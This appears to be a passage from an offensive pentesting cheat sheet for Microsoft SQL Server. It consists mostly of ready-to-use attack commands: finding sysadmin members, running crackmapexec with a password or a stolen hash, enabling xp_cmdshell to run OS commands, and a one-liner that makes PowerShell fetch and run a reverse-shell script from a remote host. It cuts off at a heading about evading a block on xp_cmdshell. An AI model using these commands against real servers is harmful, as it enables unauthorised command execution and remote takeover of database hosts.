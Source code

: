 ```

## Get members of the role "sysadmin"
```
Use master
EXEC sp_helpsrvrolemember 'sysadmin';
```

## Get if the current user is sysadmin
```
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## Get users that can run xp_cmdshell
```
Use master
EXEC sp_helprotect 'xp_cmdshell'
```


# Execute OS Commands

## Username + Password + CMD command
```
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
```

## Username + Hash + PS command
```
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'
```

## Check if xp_cmdshell is enabled
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```

## This turns on advanced options and is needed to configure xp_cmdshell
```
sp_configure 'show advanced options', '1'
RECONFIGURE
```

## This enables xp_cmdshell
```
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

## One liner
```
sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

## Quickly check what the service account is via xp_cmdshell
```
EXEC master..xp_cmdshell 'whoami'
```


## Get Rev shell
```
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'
```

## Bypass blackisted "EXEC xp_cmdshell"
```